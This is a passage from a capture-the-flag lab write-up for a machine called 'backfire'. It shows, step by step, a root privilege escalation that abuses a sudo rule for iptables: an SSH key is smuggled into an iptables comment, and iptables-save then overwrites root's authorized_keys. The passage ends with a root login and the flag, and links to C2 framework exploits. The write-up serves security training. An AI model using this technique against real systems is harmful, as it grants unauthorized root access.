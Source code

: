 #sudo /usr/sbin/iptables-save > /tmp/rules.v4
sudo /usr/sbin/iptables -F

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 5000 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 5000 -j REJECT

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 7096 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 7096 -j REJECT

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
{{< /highlight >}}

We will rely on the following article to escalate our privileges: https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

Here, the preservation of newlines in `iptables` comments allows us to write to an arbitrary file using `iptables-save`.

We proceed to overwrite the root authorized_keys file to add our own key allowing us to gain SSH access as `root`.

{{< highlight go "hl_lines=1 2 15" >}}
sergej@backfire:~$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AA...Dk kali@kali\n'
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AA...Dk kali@kali
" -j ACCEPT
sergej@backfire:~$ sudo iptables-save -f /root/.ssh/authorized_keys
{{< /highlight >}}

{{< highlight go "hl_lines=1 2 4" >}}
$ ssh -i ~/.ssh/id_ed25519 root@10.10.11.49          
root@backfire:~# ls
root.txt
root@backfire:~# cat root.txt
a7b[...]74e
{{< /highlight >}}

## Resources
> [GitHub Repo for the Havoc C2 Framework](https://github.com/HavocFramework/Havoc)\
> [GitHub Repo for the Havoc C2 SSRF + RCE Exploit](https://github.com/sebr-dev/Havoc-C2-SSRF-to-RCE)\
> [Medium Article for the HardHat C2 Exploit](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)\
> [Article Explaining How to Exploit iptables and iptables-save via a sudo Misconfiguration](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)